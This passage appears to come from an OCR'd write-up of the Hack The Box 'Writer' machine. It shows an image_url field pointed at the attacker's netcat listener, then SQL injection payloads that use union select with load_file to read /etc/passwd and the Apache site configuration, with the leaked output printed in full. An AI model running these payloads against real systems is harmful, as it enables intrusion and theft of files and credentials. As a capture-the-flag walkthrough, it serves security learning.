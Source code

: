 boundary=—————————12417370376638841362770592069Content-Length\: 850Origin\: http\://10.10.11.101DNT\: 1Connection\: closeReferer\: http\://10.10.11.101/dashboard/stories/addCookie\: session=eyJ1c2VyIjoiJ09SIDE9MS0tIC0ifQ.YSLw7w.2OHVWSzrpZAobEiyfxo94ul3lfgUpgrade-Insecure-Requests\: 1Sec-GPC\: 1-—————————-12417370376638841362770592069Content-Disposition\: form-data; name=“author”0xd4y-—————————-12417370376638841362770592069Content-Disposition\: form-data; name=“title”Writeup-—————————-12417370376638841362770592069Content-Disposition\: form-data; name=“tagline”Writeup-—————————-12417370376638841362770592069Content-Disposition\: form-data; name=“image”; filename=””Content-Type\: application/octet-stream-—————————-12417370376638841362770592069Content-Disposition\: form-data; name=“image_url”http\://10.10.15.80/image.jpg-—————————-12417370376638841362770592069Content-Disposition\: form-data; name=“content”Thanks for reading!-—————————-12417370376638841362770592069–Note the “image_url” parameter highlighted in redResponse┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $sudo nc -lvnp 80listening on [any] 80 …connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 38018GET /image.jpg HTTP/1.1Accept-Encoding\: identityHost\: 10.10.15.80User-Agent\: Python-urllib/3.8Connection\: closeJudging from the user-agent, it was found that the server is running python. After failing to obtain code executions despite trying many different upload attacks, it follows that the source code of the upload feature must be leaked to determine how it works.Leveraging SQLi to Read Local FilesThis is possible via the load_file SQL function. Going back to the login page, this function can be used in conjunction with a union select statement to leak files\:Payloaduname=’union select 1,load_file(‘/etc/passwd’),3,4,5,6– -&amp;password=aResponseWelcome root\:x\:0\:0\:root\:/root\:/bin/bashdaemon\:x\:1\:1\:daemon\:/usr/sbin\:/usr/sbin/nologinbin\:x\:2\:2\:bin\:/bin\:/usr/sbin/nologinsys\:x\:3\:3\:sys\:/dev\:/usr/sbin/nologinsync\:x\:4\:65534\:sync\:/bin\:/bin/syncgames\:x\:5\:60\:games\:/usr/games\:/usr/sbin/nologinman\:x\:6\:12\:man\:/var/cache/man\:/usr/sbin/nologinlp\:x\:7\:7\:lp\:/var/spool/lpd\:/usr/sbin/nologinmail\:x\:8\:8\:mail\:/var/mail\:/usr/sbin/nologinnews\:x\:9\:9\:news\:/var/spool/news\:/usr/sbin/nologinuucp\:x\:10\:10\:uucp\:/var/spool/uucp\:/usr/sbin/nologinproxy\:x\:13\:13\:proxy\:/bin\:/usr/sbin/nologinwww-data\:x\:33\:33\:www-data\:/var/www\:/usr/sbin/nologinbackup\:x\:34\:34\:backup\:/var/backups\:/usr/sbin/nologinlist\:x\:38\:38\:Mailing List Manager\:/var/list\:/usr/sbin/nologinirc\:x\:39\:39\:ircd\:/var/run/ircd\:/usr/sbin/nologingnats\:x\:41\:41\:Gnats Bug-Reporting System (admin)\:/var/lib/gnats\:/usr/sbin/nologinnobody\:x\:65534\:65534\:nobody\:/nonexistent\:/usr/sbin/nologinsystemd-network\:x\:100\:102\:systemd Network Management,,,\:/run/systemd\:/usr/sbin/nologinsystemd-resolve\:x\:101\:103\:systemd Resolver,,,\:/run/systemd\:/usr/sbin/nologinsystemd-timesync\:x\:102\:104\:systemd Time Synchronization,,,\:/run/systemd\:/usr/sbin/nologinmessagebus\:x\:103\:106\:\:/nonexistent\:/usr/sbin/nologinsyslog\:x\:104\:110\:\:/home/syslog\:/usr/sbin/nologin_apt\:x\:105\:65534\:\:/nonexistent\:/usr/sbin/nologintss\:x\:106\:111\:TPM software stack,,,\:/var/lib/tpm\:/bin/falseuuidd\:x\:107\:112\:\:/run/uuidd\:/usr/sbin/nologintcpdump\:x\:108\:113\:\:/nonexistent\:/usr/sbin/nologinlandscape\:x\:109\:115\:\:/var/lib/landscape\:/usr/sbin/nologinpollinate\:x\:110\:1\:\:/var/cache/pollinate\:/bin/falseusbmux\:x\:111\:46\:usbmux daemon,,,\:/var/lib/usbmux\:/usr/sbin/nologinsshd\:x\:112\:65534\:\:/run/sshd\:/usr/sbin/nologinsystemd-coredump\:x\:999\:999\:systemd Core Dumper\:/\:/usr/sbin/nologinkyle\:x\:1000\:1000\:Kyle Travis\:/home/kyle\:/bin/bashlxd\:x\:998\:100\:\:/var/snap/lxd/common/lxd\:/bin/falsepostfix\:x\:113\:118\:\:/var/spool/postfix\:/usr/sbin/nologinfilter\:x\:997\:997\:Postfix Filters\:/var/spool/filter\:/bin/shjohn\:x\:1001\:1001\:,,,\:/home/john\:/bin/bashmysql\:x\:114\:120\:MySQL Server,,,\:/nonexistent\:/bin/falseGetting RCESource Code AnalysisBefore being able to read the source code of the website, the full path of the file containing the source code must first be discovered. Seeing as the server is running apache2, the 000-default.conf file in the /etc/apache2/sites-available directory, a directory which holds configuration files for Apache virtual hosts, can be leaked to determine this information.  Payloaduname=’union select 1,load_file(‘/etc/apache2/sites-available/000-default.conf’),3,4,5,6– -&amp;password=aResponseWelcome # Virtual host configuration for writer.htb domain&lt;VirtualHost *\:80&gt;       ServerName writer.htb       ServerAdmin admin@writer.htb       WSGIScriptAlias / /var/www/writer.htb/writer.wsgi       &lt;Directory /var/www/writer.htb&gt;               Order allow,deny               Allow from all       &lt;/Directory&gt;       Alias /static /var/www/writer.htb/writer/static       &lt;Directory /var/www/writer.htb/writer/static/&gt;               Order allow,deny               Allow from all       &lt;/Directory&gt;       ErrorLog ${APACHE_LOG_DIR}/error.log       LogLevel warn       CustomLog ${APACHE_LOG_DIR}/access.log combined&lt;/VirtualHost&gt;# Virtual host configuration for dev.writer.htb subdomain# Will enable configuration after completing backend development# Listen 8080#&lt;VirtualHost 127.0.0.1\:8080&gt;#        ServerName dev.writer.htb#        ServerAdmin admin@writer.htb#       # Collect static for the writer2_project/writer_web/templates#        Alias /static /var/www/writer2_project/static#        &lt;Directory /var/www/writer2_project/static&gt;#                Require all granted#        &lt;/Directory&gt;##        &lt;Directory /var/www/writer2_project/writerv2&gt;#                &lt;Files wsgi.py&gt;#                        Require all granted#